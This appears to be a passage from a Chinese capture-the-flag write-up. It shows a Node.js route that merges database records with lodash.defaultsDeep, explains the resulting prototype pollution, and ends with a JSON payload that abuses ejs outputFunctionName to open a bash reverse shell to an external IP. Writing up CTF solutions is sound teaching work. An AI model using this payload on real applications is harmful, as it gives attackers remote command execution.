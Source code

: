```
        console.log("Merge the recorder in the database."); 

        var sql = "select `id`,`dom` from  `html` where userid=? ";
        var raws = await query(sql,[userid]);
        var doms = `{``}`
        var ret = new Array(); 

        for(var i=0;i&lt;raws.length ;i++)`{`
            lodash.defaultsDeep(doms,JSON.parse( raws[i].dom ));    // 漏洞点

            var sql = "delete from `html` where id = ?";
            var result = await query(sql,raws[i].id);
        `}`
        var sql = "insert into `html` (`userid`,`dom`) values (?,?) ";
        var result = await query(sql,[userid, JSON.stringify(doms) ]);

        if(result.affectedRows &gt; 0)`{`
            ret.push(doms);
            res.json(ret);
        `}`else`{`
            res.json([`{``}`]);
        `}`

    `}`else `{`

        console.log("Return recorder is less than 5,so return it without merge.");
        var sql = "select `dom` from  `html` where userid=? ";
        var raws = await query(sql,[userid]);
        var ret = new Array();

        for( var i =0 ;i&lt; raws.length ; i++)`{`
            ret.push(JSON.parse( raws[i].dom ));
        `}`

        console.log(ret);
        res.json(ret);
    `}`

`}`);

...
```

查看 /get 路由的逻辑，可以看到当条数大于五条时会触 merge 发合并操作，并且使用的是 `lodash.defaultsDeep`，这个方法存在原型链污染，在前文已经分析过不在多说。发现题目还使用了 ejs 模板引擎，我们可以通过 ejs 模板引擎进行 RCE。下面给出 payload：

```
`{`"type": "test", "content": `{`"constructor": `{`"prototype": `{`"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i &gt;&amp; /dev/tcp/47.xxx.xxx.72/2333 0&gt;&amp;1\"');var __tmp2"`}``}``}``}`
```
